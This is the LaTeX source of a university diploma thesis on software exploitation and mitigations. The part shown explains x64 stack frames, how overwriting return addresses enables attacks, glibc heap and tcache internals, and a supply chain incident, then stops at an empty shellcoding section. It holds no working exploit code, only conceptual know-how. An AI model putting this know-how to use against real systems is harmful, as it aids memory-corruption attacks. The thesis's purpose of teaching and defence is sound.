\documentclass{article}
\usepackage{tikz}
\usetikzlibrary{matrix,shapes,arrows,positioning,decorations.pathreplacing,arrows.meta}
\usepackage{comment}
\usepackage{marginnote}
\usepackage{pgf}
\usepackage{xstring}
\usepackage{listings}
\usepackage{xcolor}
\usepackage[utf8]{inputenc}
\usepackage{csquotes}
\usepackage[english]{babel}
\usepackage{float}
\usepackage[toc,page]{appendix}

\usepackage[backend=biber,style=numeric]{biblatex}
\nocite{*}

\addbibresource{references.bib} % Import the bibliography file

\setcounter{secnumdepth}{4} % how many sectioning levels to assign numbers to
\setcounter{tocdepth}{4}    % how many sectioning levels to show in ToC
\lstset{
    basicstyle=\ttfamily\small,
    keywordstyle=\color{blue}\ttfamily,
    stringstyle=\color{red}\ttfamily,
    commentstyle=\color{gray}\ttfamily,
    morecomment=[l][\color{magenta}]{\#},
    breaklines=true
}


\makeatletter

\newcommand{\advisor}[1]{\def\@advisor{#1}}
\newcommand{\university}[1]{\def\@university{#1}}
\newcommand{\universityRO}[1]{\def\@universityRO{#1}}
\newcommand{\faculty}[1]{\def\@faculty{#1}}
\newcommand{\facultyRO}[1]{\def\@facultyRO{#1}}
\newcommand{\department}[1]{\def\@department{#1}}
\newcommand{\departmentRO}[1]{\def\@departmentRO{#1}}
\newcommand{\email}[1]{\def\@email{#1}}
\newcommand{\location}[1]{\def\@location{#1}}
\newcommand{\locationRO}[1]{\def\@locationRO{#1}}
\newcommand{\titleRO}[1]{\def\@titleRO{#1}}

\newcommand{\mi}[1]{\mathit{#1}}

\renewcommand{\maketitle}{
\begin{titlepage}
    \begin{center}
        {\LARGE \@university\\\@faculty\\\@department}
    
        \vspace{3em}
    
        \begin{tabular}{p{4cm}p{5.0cm}}
            \includegraphics[scale = 0.12]{images/upb-logo.jpg} & \includegraphics[scale = 0.12]{images/cs-logo.png}
        \end{tabular}
    
        \vspace{4em}
    
        {\Huge DIPLOMA PROJECT}
    
        \vspace{3em}
        
        {\Large \@title}
    
        \vspace{2em}
        
        {\Large \@author}

        {\normalsize \@email}
    \end{center}

    \vspace{6em}


    \begin{flushright}
        {\large \textbf{Thesis advisor:}\vspace{1em}\\\@advisor}
    \end{flushright}

    \vspace{5em}

    \begin{center}
        {\Large \textbf{\@location}}
    
        {\large \@date}
    \end{center}
    \newpage
\end{titlepage}
\begin{titlepage}
    \begin{center}
        {\LARGE \@universityRO\\\@facultyRO\\\@departmentRO}
    
        \vspace{3em}
    
        \begin{tabular}{p{4cm}p{5.0cm}}
            \includegraphics[scale = 0.12]{images/upb-logo.jpg} & \includegraphics[scale = 0.12]{images/cs-logo.png}
        \end{tabular}
    
        \vspace{4em}
    
        {\Huge PROIECT DE DIPLOMĂ}
    
        \vspace{3em}
        
        {\Large \@titleRO}
    
        \vspace{2em}
        
        {\Large \@author}

        {\normalsize \@email}
    \end{center}

    \vspace{6em}


    \begin{flushright}
        {\large \textbf{Coordonator științific:}\vspace{1em}\\\@advisor}
    \end{flushright}

    \vspace{5em}

    \begin{center}
        {\Large \textbf{\@locationRO}}
    
        {\large \@date}
    \end{center}
    \newpage
\end{titlepage}
}
\makeatother

\university{University Politehnica of Bucharest}
\universityRO{Universitatea Politehnica din București}
\faculty{Automatic Control and Computer Science}
\facultyRO{Facultatea de Automatică și Calculatoare}
\department{Computer Science and Engineering Department}
\departmentRO{Departamentul de Calculatoare}
\title{Software Exploitation and Beyond: Unveiling Attack Vectors and Countermeasures in Modern Computing}
\titleRO{Exploatarea Software și Mai Departe: Dezvăluirea Vectorilor de Atac și Contra-Măsurilor în Calculul Modern}
\author{Bud Liviu-Alexandru}
\email{budliviu@gmail.com}
\advisor{As.Ing. Ştefan-Dan CIOCÎRLAN}
\location{Bucharest}
\locationRO{București}
\date{2023}

\begin{document}

\maketitle
% \title{Exploatarea Software și Mai Departe: Dezvăluirea Vectorilor de Atac și Contra-Măsurilor în Calculul Modern / Software Exploitation and Beyond: Unveiling Attack Vectors and Countermeasures in Modern Computing}
% \maketitle

\tableofcontents

\section{Abstract}%

\emph{Software exploitation} continues to pose a significant threat to global cybersecurity, with vulnerabilities in software systems offering fertile ground for cyberattacks. The expanding complexity of contemporary software and the incessantly evolving threat landscape only accentuates the magnitude of the problem. This paper will discuss the concept of software exploitation, elaborating on how attackers leverage vulnerabilities in software systems, illustrating some standard exploitation techniques, including buffer overflows, code injection, heap corruption, among others, while also exploring contemporary exploit detection and prevention methodologies, critically evaluating their strengths and weaknesses. Finally showcasing the necessity for a proactive approach toward software security, outlining the importance of secure coding practices and threat modeling in the early stages of software development lifecycle. In conclusion, this paper aims to offer an in-depth review of the current landscape of exploitation, detection and mitigation methodologies and techniques, emphasizing the criticality of these techniques in fortifying software against threats.

\section{Motivation}%
Digital devices have made data access and ease unprecedented. However, these conveniences raise serious security issues. A large section of the world's population carries a device in their pocket that can access their bank accounts, fingerprints, and other valuable data. These devices may imitate their owners using cameras and microphones. Exploit mitigation measures, especially in system development, are crucial with these risks. These mitigation measures protect consumers from security breaches and secure their digital privacy. This study evaluates, analyzes, and improves various mitigation measures to make software systems safer and more secure.

\section{Background}%

%   Explain how the Von-Newmann architecture works
%   Give some explaination about the stack and heap
%   Explain how virtualization works
\subsection{What is a Software Exploit?}%
In layperson's terms, a Software Exploit is a series of steps taken by an attacker (be it a human or computer) against another software system to trigger some unintended functionality. Unintended functionality could mean being able to execute arbitrary code on the machine running the software system, getting access to private information/files, escalating their privileges to become an administrator or root user, and even crashing the system.

\subsection{How does this happen?}%
\subsubsection{Not enough guardrails}%
From the perspective of software exploitation, the continuously increasing complexity of modern software presents both a challenge and an opportunity. On the one hand, this complexity implies a vast landscape where vulnerabilities can lurk unnoticed, potentially creating an opening for skilled attackers. System programming languages, traditionally trusted to create such software, provide programmers with great power but few guardrails. For instance, languages like C and C++ allow direct memory manipulation without inherent safeguards, leading to common vulnerabilities such as buffer overflows or memory leaks.

\subsubsection{Improper input sanitization}%
In most scenarios, the fundamental mistake the software developers make is the improper validation of user-controlled input. For example, let us take the venerable Buffer Overflow vulnerability, in which an attacker can send more data than the application has space to process, resulting in Undefined Behaviour.

Depending on the scenario, this undefined behavior can be exploited to redirect the execution flow of the program into code sent by the attacker (in the case of a code injection attack on the stack) or could lead to corrupting some necessary metadata somewhere else in the program (overwriting a password variable to one you control, allowing you to login without knowing the actual password). These simple techniques have mainly been mitigated in modern systems by employing passive mitigation techniques such as stack canaries and shadow stacks (which will be discussed later).

\subsubsection{Dependencies}%
Someone could be the best programmer in the world, always writing code that stands up to the highest security standards, but if they use a dependency that is vulnerable to some exploit, their program could still be at high risk. In modern software, having a programming language without a package manager is a show-stopper.

Package managers have allowed developers to share and reuse code more efficiently, increasing productivity and democratization of writing excellent and valuable software. However, on the other side, the ease of using someone else's code led us to balloon our dependency graph like never before. Running someone else's code poses a security risk not only from the exploitation standpoint but also from a supply chain attack standpoint. Only one of the dependencies a project uses must be compromised for the whole application to be compromised.

Recent years have witnessed an uptick in supply chain attacks, increasingly propelled by malicious intent and used as a protest. The abuse of the inherent trust in software development and delivery chains to spread narratives or cause disruption highlights the crucial need for encompassing security measures to ensure digital infrastructure integrity. An example of this modern method of protest is the case of the \emph{NPM} package \emph{node-ipc}\cite{LunaSec}. In this case, a disgruntled package maintainer added malicious code to this package, causing the program to delete all the files on the machine if its public IP address was detected to be from Russia or Belarus.

In~\cite{LunaSec}, the authors discuss methods of preventing these kinds of attacks in the future. The one that is the most interesting to us \emph{Dependency Sandboxes}. This strategy would limit the capabilities of software packages to the minimum they require to function. It would allow for a more streamlined auditing pipeline by focusing the audits on packages with destructive capabilities, such as system-wide file access.

\subsection{Mixing control data with user data}
The stack is a fundamental data structure in modern computing systems, and its use in x64 systems is exciting due to the specific features and operations enabled by the x64 architecture. The stack is typically organized as a contiguous memory region with two key pointers: the stack base pointer (RBP in x64) and the stack pointer (RSP in x64). The stack grows `downward' in memory, meaning that as new items are pushed onto the stack, the stack pointer decreases in value. A typical function call on an x64 system involves pushing the return address onto the stack, followed by the function's parameters \footnote{In the most common calling convention, the first few parameters are passed in registers, not through the stack}, and finally, the local variables. These elements are popped from the stack in reverse order upon function return, ensuring correct program execution. However, the direct memory access afforded by the stack also presents a potential vector for exploitation, with techniques such as buffer overflow attacks targeting this fundamental structure. Consequently, understanding the stack's functioning in x64 systems is crucial for building and securing software systems. The exploitation and proof of exploitability due to memory corruption have been formalized in~\cite{WeirdMachines}.

\begin{figure}[H]%
  \centering
  
\begin{tikzpicture}[node distance=2cm]
    \tikzstyle{block} = [rectangle, draw, fill=blue!20, text width=5em, text
    centered, minimum height=2em, text width=3cm,
               text depth=0.25cm,
               text height=1em,
               align=center]
    \tikzstyle{line} = [draw, -latex']

    % Define matrix
    \matrix [matrix of nodes,
      nodes=block,
      column sep=0cm,
      row sep=0cm
    ] (stack) {
      {0xFF0060} & {...} \\
      {0xFF0058} & {Return address} \\
      {0xFF0050} & {Stack canary} \\
      {0xFF0048} & {Old RBP} \\
      {0xFF0040} & {foo} \\
      {0xFF0038} & {bar} \\
      {0xFF0030} & {...} \\
    };

    % Draw arrow with two right angles
    % \draw [red,thick,->] (stack-1-1.east) -- +(2cm,0) |- (stack-5-1.east) node[midway, right, black] {Pointer};
    \draw [red,thick,->] ([xshift=3cm]stack-6-2.east) --
    ([xshift=0cm]stack-6-2.east) node[midway, above, black] {Value of rsp};

    \draw [red,thick,->] ([xshift=3cm]stack-4-2.east) --
    ([xshift=0cm]stack-4-2.east) node[midway, above, black] {Value of rbp};

  % \draw [decorate,decoration={brace,amplitude=10pt}]
  %     (stack-1-2.north east) -- (stack-3-2.south east)
  %     node[midway,xshift=1.5cm,] {Group 1};

  \end{tikzpicture}
  \caption{\label{fig:stackfame-example} Stack frame of a function with local variables
    `foo' and `bar'}%
\end{figure}

\begin{lstlisting}[
      caption={Example function},
      ,label={lst:examplefn}
      ,language=C]
  int example()
  {
    int foo = 3;
    int bar = 7;

    return foo + bar;
  }
\end{lstlisting}%

An example state of the stack during the call\footnote{This example is used for simplicity. In real world scenarios the variables would have been constant propagated and the function would have directly returned the result of the computation} to the function `example` Listing~\ref{lst:examplefn} is shown in Figure~\ref{fig:stackfame-example}.

The stack frame contains some interesting values that were not declared in code:
\begin{itemize}
  \item \textbf{RBP} -~Base pointer. This has been historically used to keep
        track of the start (or base) of our function's stack frame. Functions are usually not allowed to modify values above this address.
  \item \textbf{Old RBP} -~Base pointer of the caller.
  \item \textbf{Stack canary} -~A random value. The purpose of this is discussed in a later chapter.
  \item \textbf{Return address} -~For our purposes this is the most important variable. This value is used by the callee to return (hence return address) the execution flow back to the caller when the function finished executing. Another important fact is that this value is stored in the same area as our variables.
\end{itemize}

\begin{figure}[ht]%
  \centering
  
\begin{tikzpicture}[node distance=2cm]
    \tikzstyle{block} = [rectangle, draw, fill=blue!20, text width=12em, text
    centered, minimum height=2em,
               text depth=0.25cm,
               text height=1em,
               align=center]
    \tikzstyle{line} = [draw, -latex']

    % Define matrix
    \matrix [matrix of nodes,
      nodes=block,
      column sep=0cm,
      row sep=0cm
    ] (stack) {
       |[fill=gray!20   ]| {Start of stack}\\
       |[fill=red!20    ]| {vars} \\
       |[fill=green!20  ]| {return address} \\
       |[fill=green!20  ]| {old rbp} \\
       |[fill=green!20  ]| {vars} \\
       |[fill=blue!20   ]| {return address} \\
       |[fill=blue!20   ]| {old rbp} \\
       |[fill=blue!20   ]| {vars} \\
       |[fill=orange!20 ]| {return address} \\
       |[fill=orange!20 ]| {old rbp} \\
       |[fill=orange!20 ]| {vars} \\
       |[fill=gray!20   ]| {End of stack}\\
    };

    Draw arrow with two right angles
    \draw [green,thick,->] (stack-4-1.east) -- +(2cm,0) |- (stack-2-1.north east) node[midway, right, black] {};

    \draw [blue,thick,->] (stack-7-1.east) -- +(2cm,0) |- (stack-5-1.north east) node[midway, right, black] {};

    \draw [orange,thick,->] (stack-10-1.east) -- +(2cm,0) |- (stack-8-1.north east) node[midway, right, black] {};

    \draw [decorate,decoration={brace,amplitude=10pt,mirror}]
    (stack-2-1.north west) -- (stack-2-1.south west)
    node[midway,xshift=-1.5cm,] { \emph{foo}'s frame};

    \draw [decorate,decoration={brace,amplitude=10pt,mirror}]
    (stack-3-1.north west) -- (stack-5-1.south west)
    node[midway,xshift=-1.5cm,] { \emph{bar}'s frame};

    \draw [decorate,decoration={brace,amplitude=10pt,mirror}]
    (stack-6-1.north west) -- (stack-8-1.south west)
    node[midway,xshift=-1.5cm,] { \emph{baz}'s frame};

    \draw [decorate,decoration={brace,amplitude=10pt,mirror}]
    (stack-9-1.north west) -- (stack-11-1.south west)
    node[midway,xshift=-1.5cm,] { \emph{qux}'s frame};

  \end{tikzpicture}
  \caption{\label{fig:stacksample} Stack state when executing 3 nested calls}%
\end{figure}

Taking into account the layout of a stack frame, this is how stack frames are linked together when calling nested functions. Figure~\ref{fig:stacksample} shows the state of the stack while executing the following nested function call chain~\footnote{Assuming that foo does not return} (the `calls' operation is denoted by '$\Rightarrow$`):

\begin{equation}
  foo \Rightarrow bar \Rightarrow baz \Rightarrow qux
\end{equation}

This structure is a singly linked list of stack frames, with \emph{RBP} as their forward pointer. The function the processor executes is at the head of the list, and the first function called by the program is situated at the tail. Because user variables are mixed with control structures, corrupting the \emph{forward} pointer could lead to crashes or even exploits.

On the \emph{x86-64} platform, returning from a function can be usually abstracted to this algorithm:
\begin{enumerate}
  \item Move the current \emph{RPB} into \emph{RSP} (free-ing the current stack frame)
  \item Pop the value of \emph{Old RBP} from the stack into \emph{RBP} (restoring the caller's stack frame)
  \item Pop the \emph{Return address} into the instruction pointer (continuing execution)
\end{enumerate}

It is important to state again that in vulnerable programs, it is possible to modify the value of the return address on the stack due to improper input validation and bounds checking.

Another interesting fact about the Stack is that compilers are usually reluctant to put variables whose size is not known at compile time on the stack\footnote{Ways to achieve this exist, such as VLA's (Variable Length Arrays) or standard functions such as \emph{alloca}, but their uses is discouraged\cite{TorvaldsVLA}}. The data allocated on the Stack also only lives for as long as the function it was allocated (or any other callee of that function) is being executed.

\subsection{Anatomy of the Heap}
The Heap does not suffer from the same limitations as the Stack. Allocations made on the Heap can be programmatically free'd, instead of being managed by the compiler. The API for interacting with the Heap is simple:
\begin{itemize}
  \item \texttt{malloc} - Allocates a chunk of memory that can store the desired size
  \item \texttt{free} - Mark an allocation as free for reuse
\end{itemize}

Although there are more functions that interact with the system Heap this paper mainly focuses on these main 2.

\subsubsection{malloc}
The C standard~\cite[p.~154-157]{ANSI_C} strictly defines the behavior of malloc and free. Upon successful execution, malloc provides a block of memory suitably aligned for any variable. The allocated memory is uninitialized, meaning it contains indeterminate values. If the function fails to allocate the requested memory, perhaps due to insufficient memory space, it returns a NULL pointer. Notably, the standard guarantees that malloc will not modify the allocated memory's content, differentiating it from similar functions like calloc, which sets the allocated memory to zero. The pointer returned by malloc is always a unique address not being used elsewhere in the program until it is freed by the \emph{free} function.

\subsubsection{free}
The \emph{free} function pretty much does the inverse of what malloc does. It marks the memory allocation starting at the address given as a parameter as free for use by the allocator. The algorithm behind the dynamic memory allocation API is left to be implementation-defined.

\subsection{Allocating memory in Linux}
The allocator used by the C standard library (GLibC) on Linux is a variation of \emph{ptmalloc}. There are two main ways to allocate memory using this allocator. The allocator automatically chooses which technique to use based on the size of the requested allocation\footnote{Allocations with a size $<$ {M\_MMAP\_THRESHOLD} aare\emph{small} and allocations larger than that are \emph{big}}\footnote{{M\_MMAP\_THRESHOLD} is set to 127k bytes by default}:
\begin{itemize}
  \item \emph{small}~-~served by the allocation algorithm
  \item \emph{large}~-~served by a call to \emph{mmap}
\end{itemize}

Large allocations bypass the allocation algorithm entirely (and will not be the focus of our exploitation scenarios), unlike small allocations, which pass through a pretty complex set of steps before the memory is given to us. This algorithm will be discussed in detail, highlighting areas of interest helpful for exploit and mitigation development.

For futher reading, the allocation algorithm is described in depth in~\cite{MallocInternals}.

Definitions:
\begin{itemize}
  \item \emph{Arena}~-~An arena is a structure accessible by one or multiple threads, holding references to one or several heaps. It also includes linked lists of unallocated `chunks' within these heaps. Threads associated with a specific arena draw their memory from the free lists of that arena.
  \item \emph{Heap}~-~A heap is a sequential memory region divided into smaller units, known as chunks, for allocation purposes. Each heap is uniquely associated with a single arena.
  \item \emph{Chunk}~-~A chunk represents a small, allocatable memory section. This memory can be allocated (controlled by the application), freed (controlled by glibc), or merged with nearby chunks to create larger sections. Importantly, a chunk essentially serves as a shell encompassing the block of memory delivered to the application. Every chunk is part of one heap and linked to a single arena.
  \item \emph{Memory}~-~Memory refers to a segment of the application's address space, generally supported by RAM or swap
\end{itemize}

\subsubsection{Allocation}
The operation of the \texttt{malloc} function can be succinctly described as follows:

\begin{enumerate}
  \item In case a chunk with an exact match is available in the \texttt{tcache}, it is returned. Note that no attempts are made to utilize an existing chunk from a bin of a larger size.

  \item For sufficiently large requests, memory is directly acquired from the operating system using the \texttt{mmap()} function. It is noteworthy that the threshold for triggering \texttt{mmap()} is dynamic, subject to the \texttt{M\_MMAP\_THRESHOLD} parameter (refer to the \texttt{mallopt()} documentation), and there may exist a constraint on the number of mappings permissible concurrently.

  \item If an adequate chunk exists in the appropriate \texttt{fastbin}, it is used. If additional chunks are available, the \texttt{tcache} is prefilled.

  \item In the scenario where the appropriate \texttt{smallbin} contains a chunk, it is used, with the possibility of \texttt{tcache} being prefilled.

  \item For "large" requests, the function executes a routine to transfer all elements in the \texttt{fastbins} to the unsorted bin while coalescing them.

  \item The function then starts retrieving chunks from the unsorted list, subsequently placing them into small/large bins, again coalescing in the process. The function uses a chunk if it is of the required size. This is the only point in the code where chunks are inserted into small/large bins.

  \item In the case of "large" requests, the function searches the appropriate large bin and subsequently larger bins until a sufficiently large chunk is found.

  \item If chunks remain in the \texttt{fastbins} (which could occur for "small" requests), these are consolidated, and the previous two steps are repeated.

  \item Part of the "top" chunk is split off, with a possibility of enlarging the "top" chunk prior to this.
\end{enumerate}


\subsubsection{Free}
Generally, the act of "freeing" memory does not entail returning it to the operating system for alternative applications' use. A \texttt{free()} call designates a memory chunk as "available for reuse" by the application; from the perspective of the operating system, the memory still "belongs" to the application. However, should the top chunk in a heap -- the section adjacent to unmapped memory -- grow significantly, some of the memory could potentially be unmapped and returned to the operating system.

To summarize, the \texttt{free()} function operates as follows:

\begin{enumerate}
\item If space is available in the \texttt{tcache}, the chunk is stored there,
and the function returns.

\item If the chunk's size is sufficiently small, it is placed in the
corresponding \texttt{fastbin}.

\item If the chunk was allocated using \texttt{mmap()}, it is deallocated with
\texttt{munmap()}.

\item The function checks whether the chunk is adjacent to another free chunk
and coalesces the two if possible.

\item The chunk is positioned in the unsorted list, except if it has become the
"top" chunk.

\item For sufficiently large chunks, any \texttt{fastbins} are coalesced, and
the function checks if the top chunk is large enough to return some memory to
the system. It's worth noting that this step may be deferred due to performance
considerations and could occur during a \texttt{malloc} or another call.
\end{enumerate}

\subsubsection{tcache}
Here is a more in-depth analysis of the \emph{tcache} functionality. This feature was introduced in GLibC in order to speed up the allocation of small, short-lived objects from multiple threads simultaneously. This part of the algorithm is the only one that is thread-local, the others requiring a lock on the process' Arena or atomic operations.

\texttt{tcache} intercepts the calls made to the \emph{free} function and stores these allocations in singly linked lists named ``tcache buckets''. Each bucket can store a range of allocation sizes. When calling \emph{malloc} with tcache enabled, the first step is to check the appropriately sized tcache bucket for an allocation that might satisfy our requirements. If an allocation is found, it is removed from the singly linked list and returned.

\begin{figure}[ht]%
  \centering
  
\begin{tikzpicture}[node distance=2cm]
    \tikzstyle{block} = [rectangle, draw, fill=blue!20, text width=5em, text
    centered, minimum height=2em, text width=2cm,
               text depth=0.25cm,
               text height=1em,
               align=center]
    \tikzstyle{line} = [draw, -latex']

    % Define matrix
    \matrix [matrix of nodes,
    nodes=block,
    column sep=0cm,
    row sep=0cm
    ] (m1) {
      $alloc_{0}$ & |[fill=white, draw=white]| \phantom{} & |[fill=white, draw=white]| \phantom{} \\
    };

    \matrix [matrix of nodes,
    below = 1cm of m1,
    nodes=block,
    column sep=0cm,
    row sep=0cm
    ] (m2) {
      $alloc_{1}$ & |[fill=white, draw=white]| \phantom{} & $alloc_{2}$ \\
    };

    \matrix [matrix of nodes,
    below = 1cm of m2,
    nodes=block,
    column sep=0cm,
    row sep=0cm
    ] (m3) {
      $bucket_{0}(2)$ & $bucket_{1}(0)$ & $bucket_{2}(1)$ \\
    };

    \draw[->] (m3-1-1) -- (m2-1-1);
    \draw[->] (m2-1-1) -- (m1-1-1);
    \draw[->] (m3-1-3) -- (m2-1-3);
  \end{tikzpicture}
  \caption{\label{fig:tcache} Sample tcache state}%
\end{figure}

The example in Figure~\ref{fig:tcache} is a sample tcache state after executing the following instruction sequqence:
\begin{enumerate}
  \item $free(alloc_{2})$
  \item $free(alloc_{0})$
  \item $free(alloc_{1})$
\end{enumerate}
Assume that an allocation that would fit inside $bucket_{0}$ is made. The tcache algorithm would talke out that allocation from the list and return it to the program, while updating the head of the list with the address of $alloc_{0}$.

\begin{figure}[ht]%
  \centering
  \begin{tikzpicture}[node distance=2cm]
    \tikzstyle{block} = [rectangle, draw, fill=blue!20, text width=5em, text
    centered, minimum height=2em, text width=2cm,
               text depth=0.25cm,
               text height=1em,
               align=center]
    \tikzstyle{line} = [draw, -latex']

    \matrix [matrix of nodes,
    below = 1cm of m1,
    nodes=block,
    column sep=0cm,
    row sep=0cm
    ] (m2) {
      $alloc_{0}$ & |[fill=white, draw=white]| \phantom{} & $alloc_{2}$ \\
    };

    \matrix [matrix of nodes,
    below = 1cm of m2,
    nodes=block,
    column sep=0cm,
    row sep=0cm
    ] (m3) {
      $bucket_{0}(1)$ & $bucket_{1}(0)$ & $bucket_{2}(1)$ \\
    };

    \draw[->] (m3-1-1) -- (m2-1-1);
    \draw[->] (m3-1-3) -- (m2-1-3);
  \end{tikzpicture}
  \caption{\label{fig:tcache2} Sample tcache state after malloc}%
\end{figure}

How does \emph{tcache} store the links between the allocations?

\begin{figure}[ht]%
  \centering
  \begin{tikzpicture}[node distance=2cm]
    \tikzstyle{block} = [rectangle, draw, fill=blue!20, text width=5em, text
    centered, minimum height=2em, text width=2cm,
               text depth=0.25cm,
               text height=1em,
               align=center]
    \tikzstyle{line} = [draw, -latex']

    \matrix [matrix of nodes,
    below = 1cm of m1,
    nodes=block,
    column sep=0cm,
    row sep=0cm
    ] (m2) {
      fd & key & ... \\
    };

    \draw[->]  ([yshift=1cm]m2-1-1.north west)  -- node [midway, above, sloped, rotate=90, left=0.3cm] {start of alloc} (m2-1-1.north west);
  \end{tikzpicture}
  \caption{\label{fig:tcachechunk} Sample tcache entry}%
\end{figure}

The example in Figure~\ref{fig:tcachechunk} showcases how \emph{tcache} uses the allocated memory to store the required metadata to function. The value of the \emph{fd} contains the address of the next available allocation or \emph{NULL} if no other allocations are available. By default, each bucket contains a singly linked list of at most seven elements.

The \emph{key} value prevents freeing the same allocation twice. When the allocation is free, this value contains the address of the \emph{tcache\_perthread\_struct}. When the allocation is freed, this value is checked against the address of the per-thread struct, and if these values match, it means that the allocation has already been freed once, and the program aborts.

\subsubsection{Detecting heap corruption}
The \texttt{malloc} subsystem implements a series of measures to detect heap corruption throughout its codebase. Certain checks can consistently identify errors (for instance, passing an insufficiently aligned pointer to \texttt{free()}). However, most of these checks are heuristic and may not identify contrived, false chunks that mimic legitimate ones (for instance, checks for forward/backward linking of chunks). Consequently, heap corruption may persist undetected for an extended duration or not be reported.

Typical forms of corruption are managed via calls to \texttt{malloc\_printerr}; these checks are invariably included in the code. Additional checks utilize \texttt{assert} and can thus be disabled by building \texttt{glibc} with the \texttt{-DNDEBUG} flag. In the current \texttt{glibc} version, both types of checks terminate the process via a call to \texttt{\_\_libc\_message}, which ultimately invokes \texttt{abort}. Note that although old versions of \texttt{glibc} offered the ability to continue execution in the presence of heap corruption, this feature has since been discontinued.

% ASDASD pe ast il punem la case studies
% The pervasive nature and potential harm of software exploits have catalyzed the
% establishment of critical global standards for vulnerability tracking and
% response. One such prominent standard is the Common Vulnerabilities and
% Exposures (CVE) system. Launched in 1999 by the MITRE Corporation, a
% not-for-profit organization, the CVE provides a standardized method for
% identifying and cataloging known vulnerabilities. Each identified vulnerability
% is assigned a unique CVE Identifier (CVE-ID), allowing cybersecurity experts
% worldwide to share information using a common language. By providing a universal
% reference, the CVE system streamlines the process of discussing, researching,
% and resolving known exploits, and assists in the broader efforts of
% vulnerability management and mitigation. The creation and widespread adoption of
% the CVE standard underscore the recognition within the global tech community of
% the critical need for coordinated, standardized responses to the persistent
% threat of software exploitation.

% In contrast, this complexity also inspires
% and necessitates the evolution of more secure programming practices and
% languages. One such notable example is Rust, a systems programming language that
% promises memory safety without sacrificing performance. Rust's borrowing
% mechanism provides a robust guardrail, enforcing access controls to memory at
% compile-time, thus inherently mitigating a class of exploits. However, not all
% software can or will be rewritten in Rust or similar languages, and the majority
% of systems today still run on code written in languages with fewer safety
% features. As such, the balance between software complexity, performance, and
% security continues to be a critical and fascinating aspect of the software
% exploitation landscape.

\section{Software Exploitation Techniques}%
Software exploitation has been a prevalent issue almost as early as the inception of software itself, underpinning the need for constant vigilance and innovation in software security. Early instances of software exploitation can be traced back to the late 1980s with the advent of the Morris Worm. Considered one of the first computer worms distributed via the Internet, the Morris Worm infected approximately 6,000 computers, causing significant slowdowns or rendering them unusable. Since then, various software vulnerabilities have been exploited, including buffer overflows, injection attacks, and privilege escalation, leading to massive data breaches, service disruptions, and significant financial losses . The history of software exploitation elucidates the perpetual arms race between attackers seeking to exploit vulnerabilities and defenders striving to secure systems. This dynamic continues to define the software security landscape today.

\subsection{Early stage}
\subsubsection{Shellcoding}
\begin{comment}
  shellcoding
  reference smashing the stack for fun and profit
\end{comment}
